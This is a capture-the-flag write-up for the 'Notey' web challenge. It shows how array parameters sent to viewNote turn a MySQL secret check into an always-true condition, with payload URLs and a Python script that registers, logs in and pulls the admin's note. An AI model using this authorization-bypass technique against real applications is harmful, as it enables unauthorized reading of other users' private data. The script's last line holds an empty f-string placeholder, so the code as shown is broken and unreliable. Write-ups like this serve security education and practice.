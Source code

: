 
## Notey Writeup

- **Category:** Web
- **Points:** 180
- **Difficulty:** Medium

## Challenge Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

## Challenge Code

[Here](https://github.com/D4rkTT/BlackHat-MEA-2024-Quals-Writeups/tree/main/Notey-src)

## Exploitation

The application allows users to create and share notes by adding a secret password for the note so the user can share it using the note's ID and password. Upon analyzing the application, I found that the `viewNote` function does not validate the parameter types, allowing arrays to be sent instead of text. This can be exploited to retrieve the flag from the admin's note (ID 66).

The database is MySQL, so we can send the following request:
`viewNote?note_id=66&note_secret[username]=admin`

This results in the following query:
```sql
SELECT note_id, username, note FROM notes WHERE note_id = '66' AND secret = `username` = 'admin'
```

This is effectively equivalent to:
```sql
SELECT note_id,username,note FROM notes WHERE note_id = '66' and 1
```

The condition `secret = ``username`` = 'admin'` evaluates to `1` since there is a note in the table with `username='admin'`.


If there is no username field, the attack can still be executed by creating a new note with any content, such as 'test', and then retrieving the admin's note using:
`/viewNote?note_id=66&note_secret[note]=test`

Due to server restrictions that revoke sessions in less than 3 seconds, the exploit is automated using a script that registers a new user, logs in, and retrieves the flag.

```python
import requests

base_url = "http://a3a3b67b41f6f89581711.playat.flagyard.com"
login_url = f"{base_url}/login"
register_url = f"{base_url}/register"

username = "anyuser"
password = "1234567"

register_data = {
    "username": username,
    "password": password
}

sess = requests.Session()
register_response = sess.post(register_url, data=register_data)
login_response = sess.post(login_url, data=register_data)

target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"

exp = sess.get(target_url)
flag = exp.json()[0]['note']
print(f"Flag: {}")
```

